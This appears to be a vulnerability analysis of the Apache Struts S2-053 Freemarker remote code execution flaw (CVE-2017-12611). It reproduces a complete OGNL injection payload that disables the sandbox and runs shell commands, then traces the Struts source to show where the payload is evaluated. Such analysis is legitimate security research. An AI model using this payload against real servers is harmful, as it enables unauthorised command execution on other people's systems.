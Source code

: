 # S2-053 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | A RCE attack is possible when developer is using wrong construction in Freemarker tags |
| Maximum security rating | Moderate                                                     |
| Recommendation          | Upgrade to [Struts 2.5.12](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.12) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1           |
| Reporter                | Lupin <lupin1314 at gmail dot com> - [jd.com](http://jd.com/) security team David Greene <david at trumpetx dot com>Roland McIntosh <struts at rgm dot nu> |
| CVE Identifier          | CVE-2017-12611                                               |

## Problem

当在Freemarker中使用表达式文本或强制表达式时，可能会导致远程代码执行。

```xml
<@s.hidden name="redirectUri" value=redirectUri />
<@s.hidden name="redirectUri" value="${redirectUri}" />
<@s.hidden name="${redirectUri}"/>
```

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![image-20200814181552969](img/image-20200814114121260.png)

payload:

```xml
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

## Debug

根据漏洞描述猜测，漏洞在Freemarker模板渲染的时候发生。而struts2渲染模板的流程是在所有interceptor执行完成后，通过executeResult进行的。所以在executeResult方法处下个断点开始跟踪：

`s2-053/web/WEB-INF/lib/xwork-core-2.3.24.jar!/com/opensymphony/xwork2/DefaultActionInvocation.class:300`

![1597546189396](img\1597546189396.png)

createResult通过获取配置文件struts.xml中的result信息创建Result。由于我们配置的是`<result name="success" type="freemarker">index.ftl</result>`，所以创建的Result类型为FreemarkerResult。跟入execute方法：

![1597548255233](img/1597549902268.png)

conditionalParse方法之前见到过多次（见s2-016分析）， 该函数用于处理跳转地址location，会判断location是否有`ognl`表达式，有的话将会执行表达式。但是跟了一遍没发现执行payload，说明struts2是没问题的，继续往下进入FreemarkerResult的doExecute方法：

```java
public void doExecute(String locationArg, ActionInvocation invocation) throws IOException, TemplateException {
        ...
        String absoluteLocation;
        if (this.location.startsWith("/")) {
            absoluteLocation = this.location;
        } else {
            String namespace = invocation.getProxy().getNamespace();
            if (namespace != null && namespace.length() != 0 && !namespace.equals("/")) {
                if (namespace.startsWith("/")) {
                    absoluteLocation = namespace + "/" + this.location;
                } else {
                    absoluteLocation = "/" + namespace + "/" + this.location;
                }
            } else {
                absoluteLocation = "/" + this.location;
            }
        }

        Template template = this.configuration.getTemplate(absoluteLocation, this.deduceLocale());
        TemplateModel model = this.createModel();
        if (this.preTemplateProcess(template, model)) {
            try {
                Writer writer = this.getWriter();
                if (!this.isWriteIfCompleted() && this.configuration.getTemplateExceptionHandler() != TemplateExceptionHandler.RETHROW_HANDLER) {
                    template.process(model, writer);
                } else {
                    ...
                }
            } finally {
                this.postTemplateProcess(template, model);
            }
        }

    }
```

首先计算绝对路径absoluteLocation，getTemplate方法获取模板中的Freemarker标签，传入template.process方法解析。一路跟入process()->visit()->accept():

![1597553748036](img/1597553748036.png)

遍历解析每一个Freemarker标签。直接循环至i=2解析payload的标签`<@s.hidden name="${message}"></@s.hidden>`。跟入env.visit() -> accept():

![1597555768958](img/1597555768958.png)

遍历Freemarker标签属性。这里注意到`${message}`在经过valueExp.eval()方法后被替换成payload，跟入eval方法至this.rootDataModel.get(name)方法，有点绕，具体流程可参考下图调用栈。

可以看到，Freemarker对`${message}`表达式进行了一次解析，并将解析后的值放入Map。

![1597583665740](img/1597583665740.png)

回到accept继续执行，进入visitAndTransform()。【省略一段繁琐的调试...】

最后发现了熟悉的translateVariables()方法，调用evaluate方法解析了payload中的ognl表达式。调用栈如下：

![1597588794722](img/1597587950056.png)

## Reference

- [S2-053](https://cwiki.apache.org/confluence/display/WW/S2-053)

- [S2-053 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-053/README.zh-cn.md)